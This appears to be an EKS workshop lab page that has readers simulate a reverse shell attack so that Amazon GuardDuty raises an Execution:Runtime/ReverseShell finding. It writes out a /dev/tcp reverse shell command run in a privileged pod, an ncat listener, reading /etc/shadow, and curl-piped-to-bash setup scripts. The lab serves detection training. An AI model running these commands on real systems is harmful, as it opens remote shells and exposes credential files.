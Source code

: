 ```yaml
---
title: "Reverse Shell"
sidebar_position: 142
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following command.

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-setup.sh | bash
```

The command output, will show another Cloud9 IDE address, copy and paste it in another browser tab, or if you prefere, open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload. Replace the `<RSHELL_CLOUD9_IPADDRESS>` with the IP address noted in the earlier step.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged rshell -- /bin/bash -c "bash -i >& /dev/tcp/<RSHELL_CLOUD9_IPADDRESS>/6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ exit
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message `pod "rshell" deleted`.


If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, run the following command on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-cleanup.sh | bash
```